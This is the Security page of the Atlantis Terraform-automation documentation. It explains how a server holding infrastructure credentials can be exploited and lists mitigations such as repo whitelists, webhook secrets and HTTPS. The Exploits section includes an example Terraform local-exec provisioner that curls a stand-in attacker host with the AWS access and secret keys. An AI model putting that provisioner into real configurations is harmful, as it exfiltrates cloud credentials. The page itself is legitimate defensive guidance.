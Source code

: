 # Security
[[toc]]
## Exploits
Because you usually run Atlantis on a server with credentials that allow access to your infrastructure it's important that you deploy Atlantis securely.

Atlantis could be exploited by
* Running `terraform apply` on a malicious Terraform file with [local-exec](https://www.terraform.io/docs/provisioners/local-exec.html)
```tf
resource "null_resource" "null" {
  provisioner "local-exec" {
    command = "curl https://cred-stealer.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
  }
}
```
* Running malicious hook commands specified in an `atlantis.yaml` file.
* Someone adding `atlantis plan/apply` comments on your valid pull requests causing terraform to run when you don't want it to.

## Mitigations
### Don't Use On Public Repos
Because anyone can comment on public pull requests, even with all the security mitigations available, it's still dangerous to run Atlantis on public repos until Atlantis gets an authentication system.

### Don't Use `--allow-fork-prs`
If you're running on a public repo (which isn't recommended, see above) you shouldn't set `--allow-fork-prs` (defaults to false)
because anyone can open up a pull request from their fork to your repo.

### `--repo-whitelist`
Atlantis requires you to specify a whitelist of repositories it will accept webhooks from via the `--repo-whitelist` flag.
For example:
* Specific repositories: `--repo-whitelist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Your whole organization: `--repo-whitelist=github.com/runatlantis/*`
* Every repository in your GitHub Enterprise install: `--repo-whitelist=github.yourcompany.com/*`
* All repositories: `--repo-whitelist=*`. Useful for when you're in a protected network but dangerous without also setting a webhook secret.

This flag ensures your Atlantis install isn't being used with repositories you don't control. See `atlantis server --help` for more details.

### Webhook Secrets
Atlantis should be run with Webhook secrets set via the `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` environment variables.
Even with the `--repo-whitelist` flag set, without a webhook secret, attackers could make requests to Atlantis posing as a repository that is whitelisted.
Webhook secrets ensure that the webhook requests are actually coming from your VCS provider (GitHub or GitLab).

### SSL/HTTPS
If you're using webhook secrets but your traffic is over HTTP then the webhook secrets
could be stolen. Enable SSL/HTTPS using the `--ssl-cert-file` and `--ssl-key-file`
flags.
